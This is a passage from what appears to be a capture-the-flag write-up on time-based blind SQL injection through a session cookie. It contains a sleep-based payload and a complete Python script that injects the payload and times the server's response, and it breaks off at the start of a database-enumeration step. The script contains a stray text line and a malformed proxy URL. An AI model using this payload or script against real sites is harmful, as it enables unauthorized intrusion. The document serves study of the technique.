 There is an automated way to do it by writing a python script, thanks to the tutorial video by [Rana Khalil](https://www.youtube.com/watch?v=vhDhB9uVbGA)
I managed to write a similar with my own payload `'+(select*from(select(sleep(20)))a)+'`

```
import sys
import requests
import urllib3
import urllib


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http:127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}


def blind_sqli_check(url):
    sqli_payload = "'+(select*from(select(sleep(20)))a)+'"
    sqli_payload_encoded  = urllib.parse.quote(sqli_payload) 
    cookies = {'admin_session_id': '959eea471f42f2c4226942d3c620661c' + sqli_payload_encoded, 'session_id': '903da9688d0a0d2a8d04f36da0af44a1'}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    if int(r.elapsed.total_seconds()) > 20:
        print("(+) Vulnerable to blind-based SQL injection")
    else:
        print("(-) Not vulnerable to blind-based SQL injection")
*Don't Copy my terrible Script :(*
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Checking if tracking cookie is vulnerable to time-based SQLi...")
    blind_sqli_check(url)

if __name__ == "__main__":
    main()

```
The result is promising: 


![image](https://user-images.githubusercontent.com/94167587/144337839-e646739d-0100-4177-9d99-3170f3e3082d.png)




**Step 2 - Enuemrating the databases**

The hint has told us that the table is "flag", but before going furhter to that, we should know which databases do this table belong to.
We must therefore first craft the payload the enumerate the databases
